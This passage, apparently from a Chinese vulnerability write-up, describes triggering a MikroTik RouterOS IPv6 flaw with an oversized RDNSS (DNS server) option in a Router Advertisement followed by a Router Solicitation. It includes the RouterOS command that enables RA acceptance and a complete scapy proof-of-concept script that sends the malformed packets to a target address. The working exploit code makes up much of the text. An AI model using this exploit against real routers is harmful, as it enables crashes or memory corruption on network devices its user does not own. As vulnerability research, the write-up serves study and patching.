 根据对ipv6协议的学习，我们可以通过先向Mikrotik发送通过发送路由器通告`RA（Router Advertisement）`报文去把DNS server option这个vector设置的很大。然后再路由器请求`RS（Router Solicitation）`报文来让Mikrotik把自身的配置通告给邻居设备来触发这段逻辑的执行。

## 0x03 漏洞触发

首先需要设置路由器可以接收RA报文，默认其实是不接受的。同时还需要网卡支持RA功能（x86虚拟机上默认网卡不支持开启，需要自己新增ipv6网卡）。

```bash
ipv6/settings/ set accept-router-advertisements=yes
```

查找RFC构造NS和NA报文来触发漏洞，这里我选择scapy，scapy在文档中均有对RA和RS报文的实现。我们对RS报文原封不动，修改RA报文的extion部分的DNS server option即可。

根据rfc6106，DNS server option格式如下：

```plain text
      0                   1                   2                   3
      0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
     +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
     |     Type      |     Length    |           Reserved            |
     +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
     |                           Lifetime                            |
     +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
     |                                                               |
     :            Addresses of IPv6 Recursive DNS Servers            :
     |                                                               |
     +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

## 0x04 构造PoC

最终构造poc如下：

```python
from scapy.all import *
target_addr = "fe80::20c:29ff:fe03:f73"


class MyICMPv6NDOptRDNSS(Packet):
    name = "ICMPv6 Neighbor Discovery Option - Recursive DNS Server Option"
    fields_desc = [ByteField("type", 25),
                   ByteField("len", 17),
                   ShortField("res", None),
                   IntField("lifetime", 0xffffffff),
                   StrField(
  "dns", "AAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCC")
                   ]


# 构造 RA 消息
ra = IPv6(dst=target_addr) / \
    ICMPv6ND_RA()


pkt = ra / \
    MyICMPv6NDOptRDNSS()
# 发送 RA 消息
send(pkt)

# 发送RS消息
rs = IPv6(dst=target_addr) / ICMPv6ND_RS()
send(rs)
```
